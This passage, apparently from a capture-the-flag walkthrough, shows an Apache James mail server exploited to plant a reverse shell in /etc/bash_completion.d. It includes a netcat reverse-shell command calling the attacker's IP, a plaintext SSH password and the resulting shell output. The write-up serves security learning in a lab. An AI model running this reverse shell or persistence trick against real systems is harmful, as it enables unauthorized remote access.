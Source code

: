 

This creates a file in `/etc/bash_completion.d` that contains my reverse
shell. So the next time any user logs in, I'll get a shell as that user.
It is important to add the `'` at the start of the first header,
`MAIL FROM`. Then I close that `'` just before my payload. Later, when
this file is run by `bash`, that will lump all those lines into one
broken command, which will fail and continue. Without the `'`, there are
lines that will crash and break the script before the reverse shell can
run.

I had to play with payloads to get this working, and I'll explore this a
bit in [Beyond Root](#curious-case-of-devtcp). I did find when doing
things manually, `/bin/nc -e /bin/bash 10.10.14.47 443` worked, where as
others didn't. When using the Python script, several payloads worked.
That seems to have to do with the way the Python script can add `\r`.

#### Trigger -\> Shell

Now I can SSH as mindy, and trigger the code. There are new `rbash`
errors from the exploit, and then the terminal just hangs:



    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
    -rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
    -rbash: L: command not found
    -rbash: attributestLjava/util/HashMap: No such file or directory
    -rbash: L
             errorMessagetLjava/lang/String: No such file or directory
    -rbash: L
             lastUpdatedtLjava/util/Date: No such file or directory
    -rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
    -rbash: $'L\004nameq~\002L': command not found
    -rbash: recipientstLjava/util/Collection: No such file or directory
    -rbash: L: command not found
    -rbash: $'remoteAddrq~\002L': command not found
    -rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
    -rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
    -rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
    -rbash: 0xdf@10.10.14.47>
    Message-ID: <4054205.0.1588213770563.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 148
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
    Date: Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
    FROM: 0xdf@10.10.14.47
    : No such file or directory
